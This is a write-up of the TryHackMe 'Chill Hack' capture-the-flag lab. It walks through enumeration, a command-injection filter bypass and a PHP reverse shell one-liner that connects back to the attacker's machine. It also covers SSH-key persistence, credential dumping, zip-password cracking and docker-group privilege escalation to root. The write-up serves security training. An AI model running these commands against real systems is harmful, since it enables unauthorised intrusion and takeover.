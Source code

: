# 16 - Chill Hack

### Enumeration <a href="#enumeration" id="enumeration"></a>

Uisng nmap:\
\
From the nmap scan we can see the ports `21/ftp`, `22/ssh`, `80/http` are open. `Anonymous` login is allowed in `ftp` service.

<figure><img src="https://cryptichacker.github.io/assets/img/tryhackme/chillhack/nmap_scan.png" alt=""><figcaption></figcaption></figure>

I logged into the ftp server and found a text file. I downloaded it using the `get file-name` command.\


<figure><img src="https://cryptichacker.github.io/assets/img/tryhackme/chillhack/2.png" alt=""><figcaption></figcaption></figure>

Enumerating with FFUF:

`ffuf -u http://10.10.47.188/FUZZ -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -ic -c -t 1000 -fc 403 -e .php,.html` .\
\
![gobster\_1](https://cryptichacker.github.io/assets/img/tryhackme/chillhack/4.png)\
Lets check `/secret` and we see a cmd injection point.\
![alert\_page](https://cryptichacker.github.io/assets/img/tryhackme/chillhack/5.png)\
Then I tried `whoami` and the page successfully returned the output.\
![whoami\_command](https://cryptichacker.github.io/assets/img/tryhackme/chillhack/6.png)\
So, I used this to bypass without trigerring the alert.

```bash
whoami;ls -la
```

<figure><img src="https://cryptichacker.github.io/assets/img/tryhackme/chillhack/7.png" alt=""><figcaption></figcaption></figure>

### Reverse Shell <a href="#reverse-shell" id="reverse-shell"></a>

***

Since that worked, I grabbed the php reverse shell payload and used it with `whoami` to bypass the alert. Remember to open a netcat listener in your local machine before executing the payload.

```bash
whoami;php -r '$sock=fsockopen("10.18.88.214",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

\
![reverse\_shell1](https://cryptichacker.github.io/assets/img/tryhackme/chillhack/8.png) We get a shell.

### User flag <a href="#user-flag" id="user-flag"></a>

***

`sudo -l` to list the files that can be run as other users.

<figure><img src="https://cryptichacker.github.io/assets/img/tryhackme/chillhack/9.png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://cryptichacker.github.io/assets/img/tryhackme/chillhack/11.png" alt=""><figcaption></figcaption></figure>

Take a look at the second input `$msg`. The code says that anything we put in the variable `msg` will be dumped into `/dev/null` which is like a blackhole…that is we cannot retrieve anything that is put into it. So, we can spawn a shell before it dumps into the `/dev/null`.\
\
First run the file as the user `apaar`.

```
sudo -u apaar ./.helpline.sh
```

Then, give a arbitary input for the first variable. Give `/bin/bash` as second input. And finally use `python pty` to get a stable shell.\
![shell\_apaar](https://cryptichacker.github.io/assets/img/tryhackme/chillhack/12.png)\
The `user flag` is in the `home` directory of the user `apaar` in file named `local.txt`.

### Getting user anurodh <a href="#getting-user-anurodh" id="getting-user-anurodh"></a>

***

There are more than one ways to get to the credentials of the user `anurodh`.

#### Method 1 <a href="#method-1" id="method-1"></a>

***

After running `linpeas.sh` I found some ports running which are accessible only by the `localhost`.\
![linpeas\_port](https://cryptichacker.github.io/assets/img/tryhackme/chillhack/15.png)\
I generated a `ssh key pair` in my local machine.

```
ssh-keygen
```

Enter the path for it to generate new `ssh key pair` in the local machine. Copy the contents of the `public key (id_rsa.pub)` and in the remote machine append it to the `/home/apaar/.ssh/authorized_keys` file.

```
echo "your-ssh-public-key-contents" >> /home/apaar/.ssh/authorized_keys
```

Now we can ssh into the machine using the private key `id_rsa`.

```
ssh -L 9001:127.0.0.1:9001 apaar@10.10.233.203 -i id_rsa
```

Here, we are basically tunnelling the port `9001` from the remote machine into our local machine `127.0.0.1:9001`.\
![ssh\_tunnel](https://cryptichacker.github.io/assets/img/tryhackme/chillhack/17.png)\
Now we can access that service through our browser using `127.0.0.1:9001`.\
![login\_page](https://cryptichacker.github.io/assets/img/tryhackme/chillhack/18.png)\


**Sub-Method 1**

***

I tried some common credentials but had no luck with it. After searching through the files for a bit I found the credentials for `mysql` in the file `/var/www/files/index.php`.\
![mysql\_creds](https://cryptichacker.github.io/assets/img/tryhackme/chillhack/19.png)\
I connected to the `mysql service` from the remote machine.\


```
mysql -u root -p
```

\
Use the `mysql password` that we just found. Then I used some commands to finally arrive at the credentials.\


```
SHOW DATABASES;
USE webportal
SHOW TABLES;
SELECT * FROM users;
```

\
![webportal\_credentials](https://cryptichacker.github.io/assets/img/tryhackme/chillhack/22.png)\
I used [crackstation](https://cryptichacker.github.io/posts/chillhack/crackstation.net) to crack the MD5 passwords. Then, I logged into the webportal with the credentials.\
![portal\_login](https://cryptichacker.github.io/assets/img/tryhackme/chillhack/24.png)\
Download the image in the page `/hacker.php`.

**Sub-Method 2**

***

Without getting the credentials to the webportal and mysql we can still get to the page `/hacker.php`. Use `gobuster` with the common wordlist.\


```
gobuster dir -u http://127.0.0.1:9001/ -w /usr/share/dirb/wordlists/common.txt -x php 
```

\
![gobuster\_webportal](https://cryptichacker.github.io/assets/img/tryhackme/chillhack/23.png)\
Download the image in the page `/hacker.php`.

***

**Before getting the password for the user `anurodh` I’ll also explain the second method which is wayyy easier than the first one.**

#### Method 2 <a href="#method-2" id="method-2"></a>

***

This is the method that I actually used to clear the room. It was just a coincidence that I saw the `/files` directory in the parent directory after I got the reverse shell. I tried using `python -m SimpleHTTPServer 8080` to transfer the files but it throwed an error stating that `python2` was not installed. Then, I used the `python3 http server`.\


```
python3 -m http.server 8080
```

\
And I downloaded the contents using browser from my local machine.

After I transferred everything in the `/files` directory to my local machine, I analysed it. And finally I got the password for the user `anurodh`.

***

**Now let’s continue from the part where we got the `.jpg` file from the `/files` directory.**

Use `steghide` to extract the contents of the image.

```
steghide --extract -sf hacker.jpg
```

The `zip file` is password protected. Use `fcrackzip` to bruteforce the password.

```
fcrackzip -u -v -D -p ~/Wordlists/rockyou.txt backup.zip
```

<figure><img src="https://cryptichacker.github.io/assets/img/tryhackme/chillhack/26.png" alt=""><figcaption></figcaption></figure>

The password for the user `anurodh` can be found as a base64 encoded string in the inflated `php` file. Decode it.\
![pass\_base64](https://cryptichacker.github.io/assets/img/tryhackme/chillhack/27.png)\


Change the user to `anurodh` using `su anurodh` and use the password that we just found.

### Root flag <a href="#root-flag" id="root-flag"></a>

***

After using `id`, it seems that the user is in the `docker` group.\
![id\_docker](https://cryptichacker.github.io/assets/img/tryhackme/chillhack/28.png)\
I grabbed the payload to get the shell access to root from `gtfobins`.\
![gtfo\_bins](https://cryptichacker.github.io/assets/img/tryhackme/chillhack/29.png)\
The root flag is in the file named `proof.txt`.\
![root\_flag](https://cryptichacker.github.io/assets/img/tryhackme/chillhack/30.png)

Done.

